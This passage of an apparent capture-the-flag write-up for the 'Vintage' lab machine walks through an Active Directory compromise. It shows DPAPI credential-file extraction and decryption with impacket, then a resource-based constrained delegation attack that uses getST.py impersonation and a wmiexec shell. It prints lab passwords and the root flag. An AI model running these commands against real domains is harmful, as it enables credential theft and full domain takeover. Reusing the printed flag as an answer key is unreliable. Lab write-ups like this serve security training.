base64 -d dpapi.txt > creds

```
> Next, using the `dpapi.py` script from the `impacket` set, we try to decrypt:

```bash

dpapi.py credential -file creds

```
<p align="center">
 
</p>

> `Cannot decrypt (specify -key or -sid whenever applicable)`. I see the identifier `MasterKey` of the key with which this structure was encrypted - `99CF41A3-A552-4CF7-A8D7-ACA2D6F7339B`.

> I transfer the key from the `..\protect` directory to my system in the same way:

```bash

$file = "C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115\99cf41a3-a552-4cf7-a8d7-aca2d6f7339b"

```
```bash

[Convert]::ToBase64String([IO.File]::ReadAllBytes($file))

```
<p align="center">
 
</p>

> Decrypt `MasterKey`:

```bash

dpapi.py masterkey -file protect -password 'Zer0the0ne' -sid S-1-5-21-4024337825-2033394866-2055507597-1115

```
<p align="center">
 
</p>

> [!IMPORTANT]
The user's `SID` can be found from the output of the `whoami /all` command.

> We get the decrypted key (`Decrypted key`) with which we can decrypt the password itself:

```bash

dpapi.py credential -file creds -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a

```
<p align="center">
 
</p>

> We get the password from the account `C.Neri_adm` - `Uncr4ck4bl3P4ssW0rd0312`.

### RBCD

> Let's look at `BloodHound` to see what privileges this user has:

<p align="center">
 
</p>

<p align="center">
 
</p>

> The `C.Neri_adm` account is a member of the `DelegatedAdmins` group and has the `AllowedToAct` privilege over the `dc01.vintage.htb` domain controller.

> [!IMPORTANT]
`AllowedToAct` - this is an `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute that is specified on the machine object and determines which accounts can act on behalf of
other users on this resource.

> This privilege allows us to implement the `RBCD` attack technique.

> [!IMPORTANT]
`RBCD (Resource-Based Constrained Delegation)` is a technique by which a host can allow someone to `impersonate` another user when accessing itself. To implement this attack, it is
absolutely necessary that the `user` or `computer` on whose behalf we are conducting the attack has an `SPN` installed. Without it `Kerberos` simply will not be able to `bind` the ticket
to the required service.

> [!NOTE]
It would be possible to create a `fake PC` in the domain and add it to the `DelegatedAdmins` group to perform the attack on its behalf. But as it turns out the system has a **quota**
for creating machines in the domain:

```bash

addcomputer.py -k -dc-host dc01.vintage.htb -computer-name FAKEPC$ -computer-pass 'NewPassword123!' vintage.htb/c.neri_adm:'Uncr4ck4bl3P4ssW0rd0312'

```
```bash

[-] Authenticating account's machine account quota exceeded!

```
> So this idea is out. To implement the attack I will use the account - `svc_sql`.

> To modify the object we will need rights. We change the ticket to `C.Neri` since it has `GenericAll` privileges over `svc_sql`:

```bash

echo 'Zer0the0ne' | kinit c.neri

```
```bash

klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: c.neri@VINTAGE.HTB

Valid starting       Expires              Service principal
09/03/2025 15:49:25  09/04/2025 01:49:25  krbtgt/VINTAGE.HTB@VINTAGE.HTB
        renew until 09/04/2025 15:49:25

```
> Next, we repeat all the same actions that were done earlier when implementing `kerberoasting`.
> Again we activate the `svc_sql` account (**enable_account.ldif**), add `SPN` (**spn.ldif**) and then add it to the `DelegatedAdmins` group:

```bash

ldapmodify -Y GSSAPI -H ldap://dc01.vintage.htb -f enable_account.ldif -N
SASL/GSSAPI authentication started
SASL username: c.neri@VINTAGE.HTB
SASL SSF: 256
SASL data security layer installed.
modifying entry "CN=SVC_SQL,OU=PRE-MIGRATION,DC=VINTAGE,DC=HTB"

```
```bash

ldapmodify -Y GSSAPI -H ldap://dc01.vintage.htb -f spn.ldif -N
SASL/GSSAPI authentication started
SASL username: c.neri@VINTAGE.HTB
SASL SSF: 256
SASL data security layer installed.
modifying entry "CN=SVC_SQL,OU=PRE-MIGRATION,DC=VINTAGE,DC=HTB"

```
> add `svc_sql` to the group `DelegatedAdmins`:

```bash

echo 'Uncr4ck4bl3P4ssW0rd0312' | kinit c.neri_adm

```
```bash

bloodyAD -d vintage.htb -k --host "dc01.vintage.htb" add groupMember DelegatedAdmins 'svc_sql'

[+] svc_sql added to DelegatedAdmins

```
> We return to the session in the system and check that the changes have been successfully applied:

```bash

PS C:\Windows\system32> Get-ADGroupMember "DelegatedAdmins"

```
<p align="center">
 
</p>

```bash

PS C:\Windows\system32> Get-ADUser svc_sql -Properties ServicePrincipalName | Select-Object -ExpandProperty ServicePrincipalName

```
```bash

ldap/user.domain.local

```
> Next we request a `forwardable ticket` for `svc_sql` using the `-f` flag:

```bash

echo 'Zer0the0ne' | kinit -f 'svc_sql'

```
```bash

klist

Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: svc_sql@VINTAGE.HTB

Valid starting       Expires              Service principal
09/03/2025 16:01:18  09/04/2025 02:01:18  krbtgt/VINTAGE.HTB@VINTAGE.HTB
        renew until 09/04/2025 16:01:18

```
> [!IMPORTANT]
`Forwardable Ticket` is a TGT that can be used by another service on our behalf. Without this flag, `Kerberos` limits the use of the received ticket to the current user only.

> I use the `getST.py` script from the `impacket` suite to impersonate the user `L.Bianchi_adm` on behalf of the `svc_sql` account to obtain a `TGS` for the `SPN`
> that we initially specified in `.ldif`:

```bash

getST.py -dc-ip 10.10.11.45 -spn 'ldap/dc01.vintage.htb' -impersonate L.Bianchi_adm -k 'vintage.htb/svc_sql:Zer0the0n'

```
```bash

[*] Impersonating L.Bianchi_adm
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in L.Bianchi_adm@ldap_dc01.vintage.htb@VINTAGE.HTB.ccache

```
> [!IMPORTANT]
In brief. The `svc_sql` account requests a `TGS` on itself on behalf of `L.Bianchi_adm`. With this `TGS` from `L.Bianchi_adm`, the `svc_sql` account requests the
required service. Without `forwardable`, the domain controller will not be able to resolve the forwarding of the TGT.

> Export the ticket to the `KRB5CCNAME` variable:

```bash

export KRB5CCNAME=L.Bianchi_adm@ldap_dc01.vintage.htb@VINTAGE.HTB.ccache

```
> We use `wmiexec.py` from the `impacket` suite and connect to the system:

```bash

wmiexec.py -k -no-pass L.Bianchi_adm@dc01.vintage.htb -dc-ip 10.10.11.45

```
```bash

C:\>whoami
vintage\l.bianchi_adm

C:\>

```
> I get the **Last Flag** in the directory - `C:\Users\Administrator\Desktop`

```bash

C:\Users\Administrator\Desktop>type root.txt
b7f150982cbbf0239b6c07d1209594f1

C:\Users\Administrator\Desktop>

```
> root flag - `b7f150982cbbf0239b6c07d1209594f1`

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 Root flag</b><br/>
      <code>b7f150982cbbf0239b6c07d1209594f1</code>
    </td>
  </tr>
</table>

</div>

---
## 🧠 Conclusion

> [!NOTE]
During the compromise of the `dc01.vintage.htb system`, a series of attacks were carried out based on misconfigured object permissions within the `Active Directory` environment.
Starting with a low-privileged user account `P.Rosa`, reconnaissance was performed, revealing the presence of the `Pre-Windows 2000 Compatible Access` group, which included the
host `fs01$` as a member, using a predictable (`username = password`) credential configuration.
With access to `fs01$`, and leveraging the `ReadGMSAPassword privilege`, the `NTLM hash` of the managed service account `gmsa01$` was extracted from its `msDS-ManagedPassword` attribute.
Using the `AddSelf` permission, the `gmsa01$` account was added to the `ServiceManagers` group, which had `GenericAll` privileges over three service accounts. Leveraging this, the `svc_sql`
account was modified by reactivating it and assigning a `SPN`. This setup enabled a `Kerberoasting` attack, resulting in the extraction of a `Kerberos TGS hash`, which was successfully
cracked to reveal the password for the `C.Neri` user account, providing `Initial Access` to the system via the `WinRM`.
Further enumeration revealed saved credentials for the user `C.Neri_adm` via the `cmdkey` utility. This account was a member of the `DelegatedAdmins` group. Using `svc_sql`, and leveraging
the privileges of `C.Neri_adm`, a `Resource-Based Constrained Delegation` attack was carried out. This allowed the attacker to `impersonate` the domain administrator account `L.BIANCHI_ADM`,
ultimately leading to `full domain compromise`.

<p align="center">
 
</p>

